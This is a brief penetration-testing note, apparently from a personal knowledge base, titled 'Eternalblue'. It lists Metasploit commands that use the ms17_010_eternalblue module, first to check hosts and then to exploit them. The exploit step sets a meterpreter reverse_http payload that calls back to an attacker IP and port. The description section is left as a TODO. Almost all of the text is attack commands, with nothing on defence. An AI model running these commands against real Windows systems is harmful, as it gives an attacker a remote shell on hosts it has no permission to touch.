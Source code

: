 # Eternalblue

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue

set rhosts <IP>/<CIDR>

check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_http

options

set rhosts <target_IP>

set lhost <attacker_IP>

set lport <attacker_PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/SMB|Vulnerability Assessment: SMB]]